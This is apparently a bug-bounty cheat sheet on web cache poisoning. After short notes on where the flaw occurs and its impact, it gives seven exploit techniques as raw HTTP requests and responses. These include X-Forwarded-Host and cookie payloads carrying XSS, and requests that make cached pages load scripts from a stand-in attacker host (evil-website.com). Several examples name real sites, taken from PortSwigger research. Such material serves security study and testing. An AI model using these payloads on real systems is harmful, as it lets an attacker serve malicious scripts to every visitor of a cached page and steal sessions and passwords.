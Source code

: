 # Web Cache Poisoning

## Introduction
The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

## Where to find
* Parameter with Cache (unkeyed) and its value reflected in Response   
* Header with Cache (unkeyed) and its value reflected in Response   
* Cookie with Cache (unkeyed) and its value reflected in Response   

## Impact
* Session Hijacking (Web Cache Poisoning + [Host Header Injection](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md) + XSS)
* Password Steal (Web Cache Poisoning + [Host Header Injection](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md))

## How to exploit
Note: Cache-Control: public, no-cache or X-cache: miss, hit
1. Basic Header poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil-website.com

### Response:
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil-website.com/a.png" />
```
> Or you can input XSS payloads
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>

### Response:
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

2. Basic Cookie poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
Cookie: sid=a.\"><script>alert(1)</script>

### Response:
HTTP/1.1 200 OK
X-Cache: miss, hit
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

3. Multiple Header poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil-website.com
X-Forwarded-Scheme: nothttps

### Response:
HTTP/1.1 301 Moved Permanently
Location: https://evil-website.com/
```

4. Seizing the Cache
```
GET / HTTP/1.1
Host: unity3d.com
X-Host: evil-website.com

### Response:
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://evil-website.com/x.js"></script>
```

5. Selective poisoning
```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>

### Response:
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```

6. Route Poisoning
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil

### Response:
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
To exploit this, we need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and then finally trick HubSpot into serving this response on goodhire.com
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com

### Response:
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

7. Hidden Route Poisoning
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil

### Response:
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```
When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has defined a custom domain, their ghost.io subdomain will simply redirect to it:
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io

### Response:
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

## References
* [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)
